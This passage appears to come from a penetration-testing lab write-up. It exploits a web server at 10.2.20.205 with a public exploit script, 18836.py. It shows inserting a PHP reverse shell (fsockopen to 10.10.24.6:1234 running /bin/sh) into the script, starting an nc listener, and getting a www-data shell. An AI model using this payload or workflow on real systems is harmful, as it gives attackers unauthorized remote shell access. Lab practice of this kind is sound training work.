 ![python2 18836.py 10.2.20.205 80](4-exploitationassets/image-20230424150454511.png)

- Modify `pwn_code` variable and insert **PHP reverse shell code**

```bash
vim 18836.php
# insert:
pwn_code = """<?php $sock=fsockopen("10.10.24.6",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>"""
# Save and quit
```

```bash
# On another tab
nc -nvlp 1234

# Launch the exploit
python2 18836.py 10.2.20.205 80
```

![Unprivileged access with "www-data" user](4-exploitationassets/image-20230424151516577.png)
